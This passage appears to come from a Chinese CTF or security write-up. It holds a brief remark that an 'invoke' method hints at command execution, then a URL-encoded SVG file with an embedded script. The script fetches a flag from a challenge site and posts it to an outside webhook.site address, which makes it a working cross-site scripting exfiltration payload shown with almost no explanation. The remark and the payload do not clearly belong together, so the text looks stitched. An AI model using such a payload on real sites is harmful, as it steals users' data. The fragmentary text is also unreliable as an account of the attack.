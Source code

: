 [![](assets/1699929746-0d985eda7174c1e31e7a1903eaf10f54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002453-837f1520-7f1c-1.png)  
​

​  
[![](assets/1699929746-24d3ffca7e2e5348e1e277165f23b646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002501-8804c8c4-7f1c-1.png)  
​

存在invoke方法 很有命令执行的可能

```plain
%3C?xml%20version=%221.0%22%20standalone=%22no%22?%3E%0A%3C!DOCTYPE%20svg%20PUBLIC%20%22-//W3C//DTD%20SVG%201.1//EN%22%20%22http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd%22%3E%0A%0A%3Csvg%20version=%221.1%22%20baseProfile=%22full%22%20xmlns=%22http://www.w3.org/2000/svg%22%3E%0A%20%20%3Cpolygon%20id=%22triangle%22%20points=%220,0%200,50%2050,0%22%20fill=%22#009900%22%20stroke=%22#004400%22/%3E%0A%20%20%3Cscript%20type=%22text/javascript%22%20src=%22https://x0.nz/WTHS%22%3E%0Avar%20xhr%20=%20new%20XMLHttpRequest();%0Axhr.open(%22GET%22,%20%22https://hallmark.web.actf.co/flag%22);%0Axhr.send();%0Avar%20xh%20=%20new%20XMLHttpRequest();%0Axh.open(%22POST%22,%20%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bxhr.response);%0A%0Axh.send(xhr.response);%0Afetch('https://hallmark.web.actf.co/flag').then(res%20=%3E%20res.text()).then(res%20=%3E%20fetch(%22https://webhook.site/47ea02d3-8c05-417b-b561-c3c38aaca665/flag%22%2bres))%0A%3C/script%3E%0A%3C/svg%3E
```

## 参考文章

[https://tttang.com/archive/1611/](https://tttang.com/archive/1611/)

[https://goodapple.top/archives/696](https://goodapple.top/archives/696)
